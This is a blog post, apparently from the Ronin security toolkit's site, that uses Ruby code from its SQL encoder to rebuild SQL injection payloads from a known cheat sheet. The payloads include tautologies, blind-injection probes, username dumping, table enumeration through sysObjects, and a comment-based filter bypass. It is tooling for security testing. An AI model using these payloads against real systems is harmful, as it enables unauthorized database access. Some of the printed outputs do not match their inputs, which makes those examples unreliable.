 ```yaml
---
layout: post
title: RSnakes SQLi Cheat Sheet using Ronin SQL
author: postmodern
---
```


One of the planned features listed in the [Spring Cleaning Campaign (2010)][1]
was a simple Ruby->SQL encoder for the [Ronin SQL][ronin-sql] library,
to replace the overly complex Ronin SQL DSL. This encoder would format
Ruby Integers, Strings, Arrays and Hashes into fragments of proper SQL.

The Ruby->SQL encoder has gotten to the point of being able to recreate most of
the examples from [RSnake's SQL Injection Cheat Sheet][2]:

Load `ronin/code/sql`:

{% highlight ruby %}
require 'ronin/code/sql' 
include Ronin

sql = Code.sql
{% endhighlight %}

Normal SQL Injection:

{% highlight ruby %}
sql[1, :or, 1, :eq, 1].to_sql
# => "1 or 1 = 1"
{% endhighlight %}

Normal SQL Injection using encapsulated data:

{% highlight ruby %}
sql['1', :or '1', :eq, '1'].to_sql
# => "'1' or '1' = '1'"
{% endhighlight %}

Blind SQL Injection creating an error using EXEC:

{% highlight ruby %}
sql[1, :exec, :sp_, [sql[:or, :exec, :xp_]]].to_sql
# => "1 exec sp_ (or exec xp_)"
{% endhighlight %}

Blind SQL Injection detection:

{% highlight ruby %}
sql[1, :and, 1, :eq, 1].to_sql
# => "1 and 1 = 1"
{% endhighlight %}

Blind SQL Injection to attempt to locate `table_name` by brute-force
iteration through table name permutations:

{% highlight ruby %}
sql['1', :and, 1, :eq, [sql[:select, sql.count(:all), :from, :table_name]]].to_sql
# => "'1' and 1 = (select count(*) from tablenames)"
{% endhighlight %}

Using the `USER_NAME()` function in SQL Server to tell us if the user is
running as the administrator:

{% highlight ruby %}
sql[1, :and, sql.user_name(), :eq, 'dbo'].to_sql
# => "1 and user_name() = 'dbo'"
{% endhighlight %}

Creating errors by calling non-existant tables:

{% highlight ruby %}
sql[1, :and, :non_existant_table, :eq, '1'].to_sql
# => "1 and non_existant_table = '1'"
{% endhighlight %}

Dumping usernames:

{% highlight ruby %}
sql[:or, :username, :is, :not, nil, :or, :username, :eq].to_sql
# => "or username is not null or username ="
{% endhighlight %}

Enumerating through database table names:

{% highlight ruby %}
sql[1, :and, sql.ascii(
  sql.lower(
    sql.substring(
      [sql[:select, :top, 1, :name, :from, :sysObjects, :where, :xtype, :eq, 'U']], 1, 1
    )
  )
), :gt, 116].to_sql
# => "1 and ascii(lower(substring((select top 1 name from sysobjects where xtype = 'U'),1,1))) > 116"
{% endhighlight %}

Finding user supplied tables using the `sysObjects` table in SQL Server:

{% highlight ruby %}
sql[1, :union, :all, :select, [1,2,3,4,5,6,:name], :from, :sysObjects, :where, :xtype, :eq, 'U'].to_sql
# => "1 union * select (1,2,3,4,5,6,name) from sysObjects where xtype = 'U'"
{% endhighlight %}

Bypassing filter using `/**/` instead of spaces:

{% highlight ruby %}
stmt = sql[1, :union, :select, :all, :from, :where]
stmt.to_sql
# => "1 union select * from where"

stmt.to_sql(:spaces => false)
# => "1/**/union/**/select/**/*/**/from/**/where"
{% endhighlight %}

<div class="note">
  <p>
  I cheated a little by leaving off the prefix/suffix tick-marks used in
  SQL injections, but you get the general idea.
  </p>
</div>

New SQL fragments are created using the `sql[...]` syntax, and new SQL
function calls are created with `sql.func_name`. Note, that you can nest
SQL fragments by using the `[sql[...]]` or `[sql.func_name(....)]` syntax.

[1]: /blog/2010/01/12/spring-cleaning.html
[2]: http://ha.ckers.org/sqlinjection/

[ronin-sql]: https://github.com/ronin-rb/ronin-sql#readme
